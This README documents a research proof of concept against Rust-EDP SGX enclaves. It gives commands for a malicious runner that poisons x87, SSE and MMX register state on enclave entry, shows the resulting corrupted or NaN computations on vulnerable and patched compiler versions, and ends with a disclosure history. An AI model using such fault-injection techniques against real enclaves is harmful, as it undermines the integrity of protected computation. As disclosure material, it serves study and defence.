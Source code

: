 # Proof-of-concept Rust-EDP exploitation with malicious runner

This directory includes a minimal PoC showcasing insufficient ABI sanitization
in Rust-EDP. The PoC shows that untrusted code controls x87 and SSE
configuration registers on enclave entry, which got fixed after our disclosure
in newer Rust-EDP versions. We furthermore show that the initial fix did not
suffice and attackers could still override the expected result of an exemplary
x87 FPU computation with unexpected NaN outcomes. This too got fixed after our
disclosure in newest Rust-EDP versions.

## Building and running

The untrusted runner is included in a fork of the rust-sgx repo, while the
trusted enclave runtime is part of the Rust compiler. Instructions below also
include how to easily switch between vulnerable and patched compiler versions.

### Install vulnerable Rust-EDP

#### 1. Install Rust dependencies

```bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
```

#### 2. Switch to vulnerable Rust compiler version

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)
```

#### 3. Install malicious Rust-EDP runner

```bash
$ cd rust-sgx-fpu/
$ cargo install --locked --path ./fortanix-sgx-tools fortanix-sgx-tools
$ cargo install --locked --path ./sgxs-tools sgxs-tools
$ echo >> ~/.cargo/config -e '[target.x86_64-fortanix-unknown-sgx]\nrunner = "ftxsgx-runner-cargo"'
```

#### 4. Test Rust-EDP installation (only on SGX hardware)

```bash
$ sgx-detect           # Check your SGX harware setup
$ cd ../hello-world/   # Run the test enclave without poisoning
$ cargo run --target x86_64-fortanix-unknown-sgx
   Compiling cc v1.0.54
   Compiling hello-world v0.1.0 (/home/jo/Documents/faulty-point-unit/02_table2_affected_runtimes/rust-edp/hello-world)
    Finished dev [unoptimized + debuginfo] target(s) in 1.45s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

#### 5. Run proof-of-concept attack

##### 5.1 Vulnerable Rust-EDP version (poison SSE MXCSR + x87 control word + x87 tag)

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> vulnerable
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x47f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135671854019165039062500000000000000000000000000000000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.2 Initially patched Rust-EDP version (poison x87 tag)

```bash
$ rustup default nightly-2020-06-09
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-06-09
$ rustc --version
rustc 1.46.0-nightly (fd4b177aa 2020-06-08)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.3 Latest fully patched Rust-EDP version

```bash
$ rustup default nightly-2020-07-05
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-07-05
$ rustc --version
rustc 1.46.0-nightly (0cd7ff7dd 2020-07-04)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> patched
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

## Disclosure and mitigation

We disclosed the core FPU sanitization issue in December 2019 which was addressed with a `ldmxcsr/csw` instruction [<https://github.com/rust-lang/rust/pull/69040>].

After further investigation, we found that this left the attacker open to perform the MMX attack as described in the paper. We also disclosed this issue and it is patched in the Rust compiler in version 1.46.0. The mitigation can be followed via this Pull Request [<https://github.com/rust-lang/rust/pull/73471>].
